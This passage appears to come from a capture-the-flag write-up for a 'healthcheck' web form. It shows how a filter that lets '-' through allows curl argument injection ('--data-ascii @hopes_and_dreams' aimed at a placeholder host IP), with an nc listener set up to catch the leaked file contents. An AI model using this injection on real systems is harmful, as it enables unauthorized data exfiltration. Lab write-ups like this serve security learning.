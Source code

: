    ![valid_input](./assets/healthcheck_valid_input.png)
   ![valid_output](./assets/healthcheck_valid_output.png)
2. Play around with the input, special characters typically related to bash scripting is filtered. `-` is not filtered.
3. Prepare listener on host machine:
   ```sh
   nc -lvnp 80
   ```
4. Pass input on website:
   ```txt
   -X POST --data-ascii @hopes_and_dreams http://<host_machine_ip>
   ```
5. `hopes_and_dreams` content gets printed on listener stdout:
